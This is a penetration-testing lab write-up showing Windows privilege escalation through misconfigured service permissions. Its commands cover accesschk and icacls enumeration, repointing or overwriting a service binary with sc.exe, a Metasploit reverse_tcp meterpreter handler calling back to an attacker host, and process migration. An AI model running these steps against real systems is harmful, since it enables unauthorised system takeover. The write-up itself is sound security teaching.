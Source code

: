 # Weak Service Permissions

It's possible to escalate privileges by exploiting misconfigured services. 

This quick lab specifically covers two misconfigurations:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with accesschk from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's change the service and point it's binary to our malicious binary that will get as a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...and start the vulnerable service:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
.\sc.exe start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary program.exe that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary, hence you would need to migrate the the session to another sprocess:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
run post/windows/manage/migrate
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how even though the service failed, we were able to migrate to another process before it did:

![](../../.gitbook/assets/annotation-2019-05-21-210541%20%281%29.png)

## 2. Overwriting Service Binary

Check the binary path name:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sc.exe qc evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary using a native windows tool icals and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
icacls C:\service.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if you do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

